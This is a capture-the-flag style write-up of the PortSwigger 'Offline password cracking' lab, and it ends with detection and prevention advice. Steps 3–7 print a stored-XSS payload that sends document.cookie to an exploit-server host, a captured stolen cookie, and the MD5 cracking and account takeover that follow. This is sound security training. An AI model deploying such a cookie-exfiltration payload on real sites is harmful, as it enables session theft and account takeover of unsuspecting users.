# Offline Password Cracking

**Date:** October 2026 <br>
**Author:** ShahinSecLab <br>
**Category:** Authentication <br>
**Vulnerability:** Stored XSS + Weak Password Hashing (Authentication Bypass) <br>
**Difficulty:** Practitioner <br>
**Platform:** PortSwigger Web Security Academy <br>
**Tools:** Burp Suite, Firefox <br>

## Table of Contents

* [Introduction](#introduction)
* [Attack Flow](#attack-flow)
* [Why This Attack Works](#why-this-attack-works)
* [Lab Setup](#lab-setup)
* [Tools Used](#tools-used)
* [Prerequisites](#prerequisites)
* [Step 1 — Checking the Stay Logged In Cookie](#step-1--checking-the-stay-logged-in-cookie)
* [Step 2 — Decoding the Cookie](#step-2--decoding-the-cookie)
* [Step 3 — Finding the XSS](#step-3--finding-the-xss)
* [Step 4 — Stealing Carlos's Cookie](#step-4--stealing-carloss-cookie)
* [Step 5 — Decoding Carlos's Cookie](#step-5--decoding-carloss-cookie)
* [Step 6 — Cracking the Password Hash](#step-6--cracking-the-password-hash)
* [Step 7 — Logging In as Carlos](#step-7--logging-in-as-carlos)
* [Step 8 — Deleting the Account](#step-8--deleting-the-account)
* [Detection](#detection)
* [Prevention](#prevention)
* [References](#references)
* [Key Takeaways](#key-takeaways)

## Introduction

This lab has a **Stay logged in** feature that stores the user's password hash inside a cookie. The comment section also carries a **stored XSS** vulnerability. Chaining these two together, I used the XSS to make Carlos's browser send his `stay-logged-in` cookie to an exploit server, decoded the cookie to get his password hash, cracked the hash offline, logged in as Carlos, and deleted his account.

The goal was to:

1. Work out how the `stay-logged-in` cookie is built.
2. Use the stored XSS to steal Carlos's cookie.
3. Decode the stolen cookie to recover his password hash.
4. Crack the hash offline to get his plaintext password.
5. Log in as Carlos and delete his account.

## Attack Flow

```
[Stay-logged-in cookie] --decode--> [Base64(username:MD5(password))]
       |
       v
[Stored XSS found in comment field]
       |
       v
[Payload posted: document.location = exploit-server + document.cookie]
       |
       v
[Carlos views the comment -> JS runs in his browser]
       |
       v
[Carlos's browser sends his stay-logged-in cookie to the exploit server]
       |
       v
[Access log on exploit server reveals Carlos's cookie value]
       |
       v
[Decode cookie -> carlos:MD5(password)]
       |
       v
[Crack MD5 hash offline -> plaintext password]
       |
       v
[Log in as carlos -> delete the account]
```

## Why This Attack Works

The application stores the password hash directly inside the `stay-logged-in` cookie, in the form `Base64(username:MD5(password))`. Since the cookie has no `HttpOnly` flag, any JavaScript running on the page can read it through `document.cookie`. The comment field does not sanitize input, so a stored XSS payload sitting there runs in the browser of anyone who views it. Combining the two means I can steal another user's cookie remotely, pull out the hash inside it, and crack that hash offline since MD5 is fast and has no salt. Each weakness is small on its own, but chained together they lead to full account takeover.

## Lab Setup

| Field | Value |
|---|---|
| Target | PortSwigger Web Security Academy |
| Lab Name | Offline password cracking |
| Target Username | carlos |
| Vulnerable Mechanism | `stay-logged-in` cookie (readable by JS, holds password hash) + stored XSS in comments |
| Tool Used | Burp Suite Community Edition (Proxy, Decoder), lab's built-in Exploit Server |
| Hash Cracking | Offline MD5 lookup (CrackStation) |

## Tools Used
- Burp Suite Community Edition (Proxy, Decoder)
- Lab's built-in Exploit Server
- Firefox
- CrackStation (offline MD5 cracking)

## Prerequisites

* Burp Suite running with browser proxy configured
* Basic understanding of stored XSS and how `document.cookie` works
* Access to the lab's Exploit Server for hosting the payload
* Familiarity with Base64 decoding and MD5 hash identification

## Step 1 — Checking the Stay Logged In Cookie

I opened the login page and noticed a **Stay logged in** checkbox. I checked the box and logged in with my own account. 

<p align="center">
  
</p>

After logging in, I opened **Burp → Proxy → HTTP history** and checked the login response. I found a `Set-Cookie` header containing the `stay-logged-in` cookie.

<p align="center">
  
</p>

## Step 2 — Decoding the Cookie

I copied my stay-logged-in cookie and pasted it into Burp Decoder.

After decoding it from Base64, I got:

```
wiener:51dc30ddc473d43a6011e9ebba6ca770
```

The first part was my username:

```
wiener
```
<p align="center">
  
</p>

The second part was:
```
51dc30ddc473d43a6011e9ebba6ca770
```

I copied this value and checked it using **CrackStation**. It identified the hash as **MD5** and returned:
```
peter
```
<p align="center">
  
</p>

This matched my own account password.

So I confirmed that the decoded cookie contains:
```
username:MD5(password)
```

And the original cookie is Base64 encoded:
```
Base64(username:MD5(password))
```

## Step 3 — Finding the XSS

Next, I checked the comment section for XSS.

I posted:

```
<script>alert(1)</script>
```
<p align="center">
  
</p>

When I viewed the comment, the alert box appeared.

<p align="center">
  
</p>

This confirmed that JavaScript was being executed from the comment, so the comment section was vulnerable to XSS.

## Step 4 — Stealing Carlos's Cookie

Since the goal was to get Carlos's cookie, I needed the payload to execute in his browser specifically, so I also opened the lab's **Exploit Server** and copied its URL to use as the destination for the stolen cookie.

I then posted a new comment with the following payload:

```html
<script>document.location='//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/'+document.cookie</script>
```

I replaced `YOUR-EXPLOIT-SERVER-ID` with my own exploit server ID.

<p align="center">
  
</p>

The `document.cookie` part reads the cookies that are available to JavaScript.

When Carlos viewed the comment, the script ran in his browser. His browser then sent a request to my exploit server with the cookie added to the URL.

I opened the **Access log** on the exploit server and found a request from Carlos.

The important part of the request was:

```text
GET /exploitsecret=npi4O27ieE0PPOMeFCpKYHpBFTIrM5Qe;%20stay-logged-in=Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz
```
<p align="center">
  
</p>

From this request, I copied the `stay-logged-in` cookie value:

```text
Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz
```

Now I had Carlos's cookie. The next step was to decode it and get the password hash.


## Step 5 — Decoding Carlos's Cookie

I pasted Carlos's cookie into **Burp Decoder** and decoded it from Base64.

```
carlos:26323c16d5f4dabff3bb136f2460a943
```

| Field | Value | Description |
|---|---|---|
| Tool | Burp Decoder | Used to decode Carlos's cookie |
| Username | `carlos` | Confirms whose cookie was captured |
| Password Hash | `26323c16d5f4dabff3bb136f2460a943` | MD5 hash to crack offline |

<p align="center">
  
</p>

## Step 6 — Cracking the Password Hash

I searched for the MD5 hash `26323c16d5f4dabff3bb136f2460a943` and it matched a known plaintext password.

| Field | Value | Description |
|---|---|---|
| Hash Submitted | `26323c16d5f4dabff3bb136f2460a943` | Carlos's password hash from the cookie |
| Type | MD5 | Fast, unsalted, easy to crack offline |
| Result | `onceuponatime` | Carlos's plaintext password |

<p align="center">
  
</p>

## Step 7 — Logging In as Carlos

I went back to the login page and entered Carlos's recovered credentials.

| Field | Value | Description |
|---|---|---|
| Username | `carlos` | Recovered from the decoded cookie |
| Password | `onceuponatime` | Recovered by cracking the MD5 hash |
| Result | Logged in as carlos | Full account takeover achieved |

<p align="center">
  
</p>

## Step 8 — Deleting the Account

After logging in, I opened the **My account** page and selected the option to delete the account. The account was deleted and the lab was marked solved.

<p align="center">
  
</p>

## Detection

* A `stay-logged-in` or similar persistent cookie value appearing in server logs with an unusual origin, such as an exploit/webhook domain in the Referer header
* Comment or input fields storing raw `<script>` tags that later execute for other viewers, visible in stored content audits
* Outbound requests from a victim's browser to an unfamiliar external domain immediately after viewing user-generated content

## Prevention

* Mark authentication cookies as `HttpOnly` so client-side JavaScript cannot read them via `document.cookie`
* Never embed a password hash, salted or not, inside a cookie value; use a random, server-side session token instead
* Sanitize and encode all user-submitted content (like comments) before rendering it back to other users, to close the stored XSS
* Replace MD5 with a salted, slow hashing algorithm (bcrypt, Argon2) so even a leaked hash resists offline cracking

## References

* PortSwigger Web Security Academy — Authentication vulnerabilities
* PortSwigger Web Security Academy — Cross-site scripting (XSS)
* OWASP — Session Management Cheat Sheet

## Key Takeaways

* A single `HttpOnly` flag would have stopped the cookie theft, even with the XSS present
* Storing any form of password hash inside a client-readable cookie is a critical design flaw, regardless of the hash algorithm
* Stored XSS is dangerous beyond simple alerts; it can be weaponized to exfiltrate session or authentication data to an attacker-controlled server
* Chaining two separate, individually "minor" issues (readable cookie + stored XSS) can escalate into full account takeover